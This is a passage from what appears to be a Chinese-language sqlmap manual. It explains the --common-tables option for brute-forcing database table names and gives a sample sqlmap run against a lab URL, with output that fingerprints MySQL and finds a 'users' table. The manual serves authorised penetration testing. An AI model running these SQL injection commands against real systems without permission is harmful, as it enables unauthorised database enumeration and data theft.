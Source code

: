```
VARCHAR(8000)),
(CHAR(32)))
[hh:mm:50] [INFO] retrieved: bar
[hh:mm:50] [DEBUG] performed 27 queries in 0 seconds
SELECT 'foo', 'bar': 'foo, bar'
```

#### 爆破

**暴力破解表名**

参数：`–common-tables`

当使用`–tables`无法获取到数据库的表时，可以使用此参数。

通常是如下情况：

```
1. `MySQL`数据库版本小于5.0，没有`information_schema`表。

2. 数据库是`Microssoft Access`，系统表`MSysObjects`是不可读的（默认）。

3. 当前用户没有权限读取系统中保存数据结构的表的权限。
```

暴力破解的表在`txt/common-tables.txt`文件中，你可以自己添加。

列举一个 MySQL 4.1 的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner

[...]
[hh:mm:39] [INFO] testing MySQL
[hh:mm:39] [INFO] confirming MySQL
[hh:mm:40] [INFO] the back-end DBMS is MySQL
[hh:mm:40] [INFO] fetching banner
web server operating system: Windows
web application technology: PHP 5.3.1, Apache 2.2.14
back-end DBMS operating system: Windows
back-end DBMS: MySQL < 5.0.0
banner:'4.1.21-community-nt'

[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```
